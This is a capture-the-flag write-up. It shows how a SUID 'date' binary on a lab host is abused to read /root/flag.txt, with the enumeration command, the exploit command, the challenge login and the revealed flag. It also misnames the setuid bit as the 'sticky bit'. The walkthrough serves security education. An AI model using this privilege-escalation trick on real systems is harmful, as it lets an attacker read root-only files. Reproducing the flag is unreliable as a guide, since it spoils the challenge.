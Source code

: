 # root-me
Points: 400
- SSH into the challenge host, 0.cloud.chals.io on port 19777
- **Username:** *ubuntu* **Password:** *jctf2022!*
- Find the flag

## Solving

We have login credentials for a server... so let's dive in:

```
ssh ubuntu@0.cloud.chals.io -p 19777

```

Okay... first we check sudo permissions, therefore just use `sudo -l`, but we don't have any permissions.
So let's look for some other quickwins, shall we?

There is something called `sticky-bit` in linux, with this we could possibly escalate our priviledges. 

```
ubuntu@5f2d47a58826:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/date
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Ah great - there are some bins we could use... 	I'll go with [date](https://gtfobins.github.io/gtfobins/date/#suid). with this we can read a file with root permissions.
Let's try that:

```
ubuntu@5f2d47a58826:~$ LFILE=/root/flag.txt
ubuntu@5f2d47a58826:~$ date -f $LFILE
date: invalid date 'jctf{4cc355_6r4n73d}'
```

Great, there it is :-)

## GTFO bins
Please keep this in mind. Sometimes the sticky bit is neseccary, but it is also dangerous. The github page [gtfobins.github.io](https://gtfobins.github.io/gtfobins/) will show the tricks to weaponize such bins.
